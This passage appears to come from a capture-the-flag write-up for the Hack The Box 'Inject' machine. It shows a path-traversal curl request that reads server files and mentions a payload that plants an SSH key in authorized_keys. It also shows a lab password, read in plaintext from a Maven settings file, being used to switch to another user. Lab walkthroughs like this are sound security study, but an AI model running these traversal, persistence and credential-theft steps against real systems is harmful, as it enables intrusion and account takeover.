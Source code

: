 I was not able to open a reverse bash shell, so I'm trying to read the files in the server: `find var/www/WebApp/src/main -type f > /tmp/foobar`

```bash
~x» curl -s 'http://inject.htb:8080/show_image?img=../../../../../../../../../../tmp/foobar'  | grep -v html
var/www/WebApp/src/main/resources/static/images/home.jpg
var/www/WebApp/src/main/resources/static/css/test.css
var/www/WebApp/src/main/resources/static/css/under.css
var/www/WebApp/src/main/resources/static/css/style.css
var/www/WebApp/src/main/resources/static/css/change.css
var/www/WebApp/src/main/resources/static/css/blog.css
var/www/WebApp/src/main/resources/META-INF/MANIFEST.MF
var/www/WebApp/src/main/resources/application.properties
var/www/WebApp/src/main/java/com/example/WebApp/WebAppApplication.java
var/www/WebApp/src/main/java/com/example/WebApp/user/User.java
var/www/WebApp/src/main/java/com/example/WebApp/user/UserController.java
var/www/WebApp/src/main/java/META-INF/MANIFEST.MF
```

Nothing interesting found. I had to upload the z.sh payload to put my ssh key into ~/.ssh/authorized_keys:

```bash
frank@inject:~$ pwd
/home/frank
frank@inject:~$ id
uid=1000(frank) gid=1000(frank) groups=1000(frank)
frank@inject:~$ ls /home
frank  phil

frank@inject:~$ cat .m2/settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>

```

```bash
frank@inject:~$ su phil
Password:

phil@inject:~$ id
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
phil@inject:~$ ls
user.txt
```
